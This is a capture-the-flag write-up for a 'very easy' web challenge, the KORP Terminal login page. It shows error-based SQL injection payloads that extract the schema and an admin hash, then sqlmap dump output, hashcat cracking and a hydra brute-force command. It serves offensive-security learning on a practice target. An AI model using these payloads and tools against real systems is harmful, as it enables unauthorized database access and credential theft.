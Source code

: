 ```yaml
---
layout: Post
type: chall
---
```

# KORP Terminal

<a class="back-link" href="../../">< Go back</a>

KORP Terminal
Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

<br><br>

The website was just a basic login page, though the auth didn't use http-forms but just a `Basic` auth. I tried running hydra with `http-get` but it didn't work, I don't really know why. So instead I just focused on the webpage itself.

After trying lots of different things I found that the service was vulnerable to SQLi's:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT version()))) --+
```

Response: `1105 (HY000): XPATH syntax error: ':10.11.6-MariaDB'"`

Looking online we don't have any notable exploits for this version, but we can still try to extract some information.

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM table_name LIMIT 1))) --+
```

Response: `"1142 (42000): SELECT command denied to user 'lean'@'localhost' for table'korp_terminal'.'table_name'"`

We learned that the database schema name is `korp_terminal`. And that there is a `lean` user.

Let's try to view how the schema is made up:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM information_schema.columns WHERE table_schema = 'korp_terminal'))) --+
```

Response: `1242 (21000): Subquery returns more than 1 row`

Nice let's try to step into the schema cols:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM information_schema.columns WHERE table_schema = 'korp_terminal' LIMIT 0,1))) --+
```

Responses:

- for `LIMIT 0,1`: `1105 (HY000): XPATH syntax error: ':id'`
- for `LIMIT 1,1`: `1105 (HY000): XPATH syntax error: ':username'`
- for `LIMIT 2,2`: `1105 (HY000): XPATH syntax error: ':password'`

Because this is a "very easy" challenge, let's try to guess the table name as `users` and extract the username:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT username FROM users LIMIT 0,1))) --
```

Response: `1105 (HY000): XPATH syntax error: ':admin'`

Perfect we have a `admin` user in the `users` table, our guess was correct, let's grab their password:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT password FROM users WHERE username = 'admin' LIMIT 0,1))) --
```

We do get the password but it's partially cropped. After spending some time trying to manually investigate, I abandoned and just threw sqlmap at it, it worked pretty damn well:

```bash
sqlmap -u "http://<IP>/" -v 3 --forms --ignore-code=401 -D korp_terminal -T users --dump
# Database: korp_terminal
# Table: users
# [1 entry]
# +----+--------------------------------------------------------------+----------+
# | id | password                                                     | username |
# +----+--------------------------------------------------------------+----------+
# | 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
# +----+--------------------------------------------------------------+----------+
```

I always forget about sqlmap, what a crazy tool. Okay so bcrypt, 12 rounds, this seems weirdly complex for a "very easy" challenge, but ok, let's give it to hashcat with rockyou.txt:

```bash
hashcat -m 3200 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
# $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```

I feel betrayed as I've left hydra running in the background over rockyou and it didn't manage to get in... I don't really understand what I did wrong with hydra:

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt -s 44667 -V 94.237.50.175 http-post /
# I also tried http-get, nothing.
```

Connecting with `admin:password123` we get the flag.
